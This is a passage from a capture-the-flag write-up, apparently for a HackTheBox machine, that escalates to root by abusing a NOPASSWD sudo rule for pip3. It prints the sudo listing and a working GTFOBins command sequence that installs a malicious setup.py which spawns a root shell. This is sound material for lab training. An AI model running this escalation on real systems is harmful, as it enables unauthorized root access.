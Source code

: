 We can then grab the user flag.

### Sudo pip3

We can enumerate the user's `sudo` privileges:

```
low@sneakymailer:/$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
```

Based on GTFOBins, we just need to run these commands:

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip3 install $TF
```

This would give us a root shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (192).png" alt=""><figcaption></figcaption></figure>

Rooted!
